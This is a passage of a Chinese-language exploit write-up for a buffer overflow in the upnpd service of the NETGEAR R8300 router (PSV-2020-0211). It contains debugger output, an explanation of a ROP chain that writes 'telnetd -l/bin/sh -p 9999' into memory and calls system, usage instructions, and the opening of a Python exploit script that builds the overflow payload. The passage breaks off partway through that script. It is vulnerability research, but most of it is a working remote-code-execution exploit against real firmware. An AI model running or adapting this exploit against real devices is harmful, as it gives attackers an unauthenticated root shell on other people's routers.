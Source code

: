 ```
   0x76dc3508 <strcpy+0>       mov    r3,  r0
 → 0x76dc350c <strcpy+4>       ldrb   r2,  [r1],  #1
   0x76dc3510 <strcpy+8>       cmp    r2,  #0
   0x76dc3514 <strcpy+12>      strb   r2,  [r3],  #1
   0x76dc3518 <strcpy+16>      bne    0x76dc350c <strcpy+4>
   0x76dc351c <strcpy+20>      bx     lr
   0x76dc3520 <strcspn+0>      push   {r4,  lr}
─────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "upnpd", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x76dc350c → strcpy()
[#1] 0x25e74 → mov r0,  r7
────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

由于接收 socket 数据的 buffer 未初始化，在劫持 PC 前我们可以往目标内存注入 6500 多字节的数据。 这么大的空间，也足以给 ROP 的 payload 一片容身之地。

使用 `strcpy` 调用在 bss 上拼接出命令字符串 `telnetd\x20-l/bin/sh\x20-p\x209999\x20&\x20\x00`，并调整 R0 指向这段内存，然后跳转 `system` 执行即可。
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1610083780/netgear/image_26.png)

## **0x06 脚本使用说明**




|脚本帮助：	|usage: python2 PSV-2020-0211.py 【路由器IP】 【任意libc有效地址】	|
|---	|---	|
|真实利用：	|IP:192.168.2.2 Port:upnp/1900	|
||![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1610083779/netgear/image_27.png)	|

```
import socket
import time
import sys
from struct import pack

p32 = lambda x: pack("<L", x)
bssBase = 0x9E150   #string bss BASE Address
ip = '192.168.2.2'
libc_addr = 0x76d9d450

def banner():
    a= """
        # NETGEAR Nighthawk R8300 RCE Exploit upnpd, tested exploit fw version V1.0.2.130
        # Date : 2020.03.09
        # POC : system("telnetd -l /bin/sh -p 9999& ") Execute
        # Desc : execute telnetd to access router
    """
    print a


def makpayload2(libc_addr):
    payload = (
        0x604 * b'a' +  # dummy
        p32(int(libc_addr,16)) +  # v51 Need to Existed Address
        (0x634 - 0x604 - 8) * b'a' +  # dummy
        p32(0x000230f0) + # #change eip LR=0x000230f0
        2509 * b'a'
        """
        .text:000230F0                 ADD             SP, SP, #0x20C
```